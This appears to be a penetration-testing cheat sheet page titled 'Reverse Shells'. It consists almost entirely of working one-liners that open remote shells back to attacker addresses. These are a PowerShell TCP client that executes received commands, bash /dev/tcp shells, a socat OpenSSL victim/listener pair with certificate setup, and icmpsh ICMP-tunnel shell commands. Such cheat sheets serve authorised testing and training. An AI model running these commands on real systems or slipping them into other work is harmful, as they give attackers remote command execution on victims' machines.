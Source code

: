```yaml
---
layout: page
title: "# Reverse Shells"
permalink: /shell/reverse_shells/
---
```


# Reverse Shells

## Powershell:

```powershell
#Oneliner:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Bash:

```python
bash -i >& /dev/tcp/192.168.119.191/8888 0>&1

#OR:

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

## SoCat:

```bash
#Reverse Secure:

#Victim:
$socat - OPENSSL:192.168.73.144:8888,verify=0

#Attacker:
$socat -d -d OPENSSL-LISTEN:8888,cert=/opt/Certificates/shell.pem,verify=0 STDOUT

#Creating Certificate:
$openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 364 -out shell.crt
>>NL
>>Noord-Brabant
>>Breda
>>JB
>>ICT

$cat shell.key shell.crt > shell.pem
```

## ICMP (Windows) based shells:

```bash
#Download ICMPSH:
https://github.com/bdamele/icmpsh
#Examples:
https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/
#Attacker:
#Before running icmpsh, we will need to prevent the kernel from replying to ICMP echo requests. Most ICMP tunneling tools will implement mechanisms to synchronize the data stream between the two machines, and the kernel replies may cause unexpected results.
#Add to: /etc/sysctl.conf
net.ipv4.icmp_echo_ignore_all=1
#Reload the settings:
sudo sysctl --system
#Run Server
#sudo ./icmpsh_m.py %ATTACKERIP% %VICTIMIP% <- The Victim IP waits for ICMP Requests from the server
sudo ./icmpsh_m.py 192.168.178.178 192.168.178.100
#Run Client (Windows:
icmpsh.exe -t 192.168.178.178
#A reverse shell is made and RCE is possible. Note - this traffic is NOT encrypted!

ICMPTunnel:
https://github.com/DhavalKapil/icmptunnel

PTunnelNG:
https://github.com/lnslbrty/ptunnel-ng

```

## Other Resources:

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#bash-tcp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
